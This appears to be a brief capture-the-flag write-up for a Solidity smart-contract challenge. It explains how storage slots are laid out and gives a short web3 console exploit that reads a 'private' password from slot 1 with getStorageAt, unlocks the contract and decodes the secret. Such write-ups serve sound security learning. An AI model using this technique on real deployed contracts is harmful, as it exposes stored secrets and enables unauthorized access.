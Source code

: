 ### Analysis
Since locked is declared first, it takes the first storage slot 0. Slots are 32 bytes large, so if the next variable can fit in the same slot "next to" locked, then Solidity will save some storage by packing both the variables in the same slot. Since password takes up a full 32-byte slot, it gets its own slot in the next available location (1).

### The Exploit
we can run the code in Developer Tools:
~~~
password = await web3.eth.getStorageAt(contract.address, 1)
await contract.unlock(password)
~~~
tips: let's decode the value:
```
const arr = password.substring(2).match(/.{2}/g).map(v => parseInt(v, 16));
new TextDecoder().decode(new Uint8Array(arr));
> 'A very strong secret password :)'
```
